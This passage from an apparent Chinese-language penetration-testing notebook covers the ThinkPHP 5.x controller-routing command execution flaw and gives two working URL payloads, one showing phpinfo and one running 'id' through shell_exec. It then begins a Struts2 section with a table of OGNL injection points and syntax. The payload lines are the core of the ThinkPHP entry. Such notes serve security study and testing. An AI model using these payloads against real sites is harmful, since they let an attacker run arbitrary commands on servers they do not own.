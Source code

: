 ### 03-ThinkPHP5.x 命令执行漏洞

thinkphp底层没有对控制器名进行严格的合法性校验，，导致在网站没有开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致命令执行。`index.php?s=index/\namespace\class/method`会实例化\namespace\class类并执行method方法。

- 利用index模块、\think\app控制器、同时利用invokefunction方法去反射调用call_user_func_array函数。使用的参数：`function=call_user_func_array`，`vars[0]=phpinfo`，`vars[1][]=-1`，可回显phpinfo。payload：`index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`。
- 利用index模块、\think\app控制器、同时利用invokefunction方法去反射调用call_user_func_array函数。使用的参数：`function=call_user_func_array`，`vars[0]=shell_exec`，`vars[1][]=id`，可回显id命令。payload：`index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=id`

![thinkphp5.xrec](https://raw.githubusercontent.com/Scorpio-m7/Penetration-Zbook/main/img/thinkphp5.xrec.png)

## 02-Struts2 框架漏洞

Struts2是一个基于 MVC 设计模式的 Web 应用框架，它本质上相当于一个 servlet ，在 MVC 设计模式中，Struts2 作为控制器(controller)来建立模型与视图的数据交互。

| 注入点                   | 注入代码写法                                          |
| ------------------------ | ----------------------------------------------------- |
| request参数名、 cookie名 | (ognl)(constant) = value & (constant)((ognl1)(ognl2)) |
| request参数值            | %{ognl}、${ognl}、'ognl'、(ognl)                      |
| request的filename        | %{ognl}、${ognl}                                      |
| request的URL             | /%{ognl}.action、/${ognl}.action                      |
| Request的content-type    | %{ognl}、${ognl}                                      |
